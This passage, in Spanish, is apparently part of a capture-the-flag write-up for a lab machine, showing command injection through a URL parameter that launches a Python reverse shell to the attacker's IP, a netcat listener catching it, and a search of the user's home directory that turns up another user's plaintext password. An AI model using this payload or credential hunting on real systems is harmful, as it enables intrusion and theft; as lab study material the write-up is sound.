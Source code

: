 Ahora podemos establecer una reverse shell directamente, indicando la dirección IP de la máquina atacante y el puerto de escucha correspondiente. En este caso, utilizaremos el lenguaje de programación Python.

```bash
http://10.10.14.6/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
```

Antes de recibir una conexión, es necesario que estemos escuchando en el puerto especificado. 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.189] 32984
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

En este punto podemos realizar un **tratamiento de la TTY** para tener una shell inversa más interactiva y funcional. Para ello seguimos los siguientes pasos descritos en: [Tratamiento de la TTY](https://itzjp-sec.github.io/posts/tratamiento-tty/).

### Horizontal User Pivoting

Observamos que estamos utilizando el usuario `ruby`. Al revisar los usuarios del sistema, podemos confirmar que `henry` es el usuario principal del sistema. Por lo tanto, debemos buscar un método para escalar nuestros privilegios y acceder a dicho usuario.

```bash
ruby@precious:/var/www/pdfapp$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

Si accedemos al directorio de `henry`, encontramos la primera bandera, sin embargo, desafortunadamente no contamos con los permisos necesarios para leerla.

```bash
ruby@precious:/home/henry$ ls
user.txt
ruby@precious:/home/henry$ cat user.txt 
cat: user.txt: Permission denied
```

Al listar los archivos y directorios ocultos del directorio del usuario actual, encontramos el directorio `.bundle`. Al acceder al mismo, encontramos la contraseña del usuario `henry`.

```bash
ruby@precious:~$ ls -al
total 32
drwxr-xr-x 5 ruby ruby 4096 Apr 17 22:53 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Apr 17 22:18 .cache
drwxr-xr-x 3 ruby ruby 4096 Apr 17 22:53 .local
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle/
ruby@precious:~/.bundle$ ls
config
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```